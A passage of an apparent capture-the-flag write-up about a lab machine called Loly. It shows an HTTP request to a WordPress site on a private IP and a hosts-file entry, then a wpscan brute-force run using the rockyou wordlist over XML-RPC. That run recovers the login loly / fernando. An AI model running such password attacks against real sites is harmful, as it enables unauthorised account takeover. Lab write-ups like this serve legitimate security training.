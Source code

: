 > `wordpress` installation identified!
{: .prompt-info }

Accessing the `wordpress` instance shows that we need to add an entry to our `/etc/hosts` file.
```http
GET /wordpress/ HTTP/1.1
Host: 192.168.242.121
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Mon, 14 Aug 2023 17:26:13 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Link: <http://loly.lc/wordpress/index.php?rest_route=/>; rel="https://api.w.org/"
Content-Length: 28194

<!DOCTYPE html><html lang="en-US">
...
```

> Add `TARGETIP loly.lc` to `/etc/hosts`
{: .prompt-info }

---

# exploitation
## `wordpress` weak credentials
Using `wpscan` reveals a user account with weak credentials.
```bash
$ wpscan --url http://loly.lc/wordpress/ --wp-content-dir wp-admin --passwords /usr/share/wordlists/rockyou.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://loly.lc/wordpress/ [192.168.242.121]
[+] Started: Mon Aug 14 19:37:58 2023
...
[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - loly / fernando                                                                                                                                                                                                                 
^Cying A WordPress Commenter / millie Time: 00:00:12 
[!] Valid Combinations Found:
 | Username: loly, Password: fernando
```